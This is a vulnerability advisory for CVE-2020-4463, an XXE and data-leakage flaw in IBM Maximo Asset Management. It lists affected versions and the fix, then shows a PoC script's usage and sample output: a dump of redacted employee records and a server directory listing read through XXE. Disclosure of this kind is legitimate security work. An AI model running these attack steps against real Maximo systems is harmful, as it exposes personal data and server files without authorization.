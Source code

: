 ```yaml
---
title: IBM Maximo Asset Management is vulnerable via XXE 
description: IBM Maximo Asset Management is vulnerable to Information Disclosure via XXE Vulnerability (CVE-2020-4463)
header: IBM Maximo Asset Management is vulnerable via XXE 
tags: ['advisories']
cwes: ['Improper Restriction of XML External Entity Reference (CWE-611)']
affected_product: 'IBM Maximo Asset Management'
vulnerability_release_date: '2020-07-29'
---
```


IBM Maximo Asset Management is vulnerable to an XML External Entity Injection (XXE) attack when processing XML data. A remote attacker could exploit this vulnerability to expose sensitive information or consume memory resources.

<!--more-->

Base Score: 8.2

Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:L

### Affected Core Components
IBM Maximo Asset Management	7.6.0<br />
IBM Maximo Asset Management	7.6.1<br />

### Affected Products
Maximo for Aviation<br />
Maximo for Life Sciences<br />
Maximo for Nuclear Power<br />
Maximo for Oil and Gas<br />
Maximo for Transportation<br />
Maximo for Utilities<br />
SmartCloud Control Desk<br />
IBM Control Desk<br />
Tivoli Integration Composer<br />

### Patched in Version
Fixed Version: 	Maximo Asset Management 7.6.1.2<br />
prior Versions: See workaround (link below)

### Links:
- https://nvd.nist.gov/vuln/detail/CVE-2020-4463
- https://www.ibm.com/support/pages/node/6253953

### PoC
Here now the PoC for the vulnerability. Not only the versions mentioned by IBM are vulnerable. All versions befor version 7.6.0 can be also vulnerable.

The PoC checks 2 vulnerabilities that might be present on the system. A data leakage vulnerability that can be exploited if no authentication is implemented and the XXE vulnerability that can be exploited if a certain value (mxe.int.resolvexmlextentity=0) is not set in the configuration.

### Example

#### Usage

```
python3 CVE-2020-4463.py --help
usage: CVE-2020-4463.py [-h] [-x [XXE]] [-d [DATALEAK]] [--url [URL]]

CVE-2020-4463 PoC Data Leakage and XXE

optional arguments:
  -h, --help            show this help message and exit
  -x [XXE], --xxe [XXE]
                        XXE (Linux/Windows)
  -d [DATALEAK], --dataleak [DATALEAK]
                        Data Leakage REST request MXPERSON. May take a long
                        time.
  --url [URL]           Target URL http://, https://
```

If you get following response, both vulnerabilities are not present.

```
Error 500: BMXAA1268E - No user credentials.
```

#### Data Leakage

May take a long time if the database contains many entries.

```
CVE-2020-4463 git:(master) ✗ python3 CVE-2020-4463.py --url https://10.0.0.1 -d

<?xml version="1.0" encoding="UTF-8"?>
<QueryMXPERSONResponse xmlns="http://www.ibm.com/maximo" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    creationDateTime="2020-11-16T10:42:49+01:0 0" transLanguage="EN" baseLanguage="EN"
    messageID="6927296.160551977018422092" maximoVersion="7 6 20170418-0100 V7608-61" rsStart="0" rsTotal="4374"
    rsCount="4374">
    <MXPERSONSet>
        <PERSON>
            <ADDRESSLINE1></ADDRESSLINE1>
            <CITY></CITY>
            <CLASSSTRUCTUREID></CLASSSTRUCTUREID>
            <COUNTRY></COUNTRY>
            <C_DESCRIZIONE></C_DESCRIZIONE>
            <C_MATRICOLA></C_MATRICOLA>
            <C_QUALIFICA></C_QUALIFICA>
            <FIRSTNAME>Lxxxxxxx</FIRSTNAME>
            <LANGUAGE>IT</LANGUAGE>
            <LASTNAME>xxxxxx</LASTNAME>
            <PERSONID>Lxxxxxxx</PERSONID>
            <POSTALCODE></POSTALCODE>
            <PRIMARYEMAIL>xxxx@xxxx.xxx</PRIMARYEMAIL>
            <PRIMARYPHONE></PRIMARYPHONE>
            <STATEPROVINCE></STATEPROVINCE>
            <STATUS maxvalue="ACTIVE">ACTIVE</STATUS>
            <TITLE></TITLE>
            <USERNOTFTYPE></USERNOTFTYPE>
            <EMAIL>
                <EMAILADDRESS>xxxx@xxxx.xxx</EMAILADDRESS>
            </EMAIL>
        </PERSON>
```

#### XXE

```
CVE-2020-4463 git:(master) ✗ python3 CVE-2020-4463.py --url https://10.0.0.1 -x          

Error 500: BMXAA4160E - A major exception has occurred. Check the system log to see if there 
are any companion errors logged. Report this error to your system administrator.
	/c: &#40;No such file or directory&#41;
Error 500: For input string: &quot;bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost&#43;found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
&quot;
```

**Michael Wollner** ([@Ibonok](https://github.com/Ibonok))
